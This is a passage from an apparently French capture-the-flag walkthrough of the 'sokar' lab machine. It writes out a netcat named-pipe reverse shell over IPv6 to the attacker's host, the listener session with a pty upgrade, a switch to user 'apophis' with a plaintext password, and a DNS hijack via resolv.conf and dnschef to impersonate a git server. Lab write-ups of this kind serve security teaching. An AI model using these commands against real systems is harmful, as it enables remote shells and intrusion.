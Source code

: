 Et ailleurs c'est visiblement git car c'est ce qu'il se cache derrière la chaîne C que l'on avait vu sous forme obfusquée.  

Entre temps, un éclair de lucidité (ou de génie, n'ayons pas peur des mots :D ) m'a poussé à utiliser IPv6 pour passer le firewall.  

*Netcat* est installé sur la machine mais la version ne dispose pas de l'option -e, il faut donc créer un tube nommé (une fifo selon *William Shakespeare*) :  

```plain
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc -6 fe80::ca60:ff:fec9:52af%eth0 9999 >/tmp/f
```

Et côté attaquant on lance nonchalamment *ncat*, le couteau suisse du 21ème siècle :  

```plain
$ ncat -6 -l -v 9999
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Connection from fe80::a00:27ff:fef2:40db.
Ncat: Connection from fe80::a00:27ff:fef2:40db:59170.
sh: no job control in this shell
sh-4.1$ export PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin:/usr/local/sbin
<sr/bin:/usr/local/bin:/sbin:/usr/sbin:/usr/local/sbin                       
sh-4.1$ which python
which python
/usr/bin/python
sh-4.1$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.1$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.1$ su apophis
su apophis
Password: overdrive

[apophis@sokar bynarr]$ id
id
uid=501(apophis) gid=502(apophis) groups=502(apophis)
```

Déjà on a un shell qui sans être extra est plus réaliste :)  

Comme la commande *git clone* cherche à contacter un serveur baptisé *sokar-dev* on va profiter de l'accès en écriture à *resolv.conf* pour nous définir comme serveur DNS :  

```plain
nameserver fe80::ca60:ff:fec9:52af
nameserver 192.168.0.3
```

J'ai remarqué que pour que la résolution fonctionne il faut mettre une adresse IPv6 ET une adresse IPv4...  

Et enfin via *dnschef* on répond à chaque requête DNS avec notre adresse IP (ici seuls les enregistrements A et AAAA nous intéressent).  
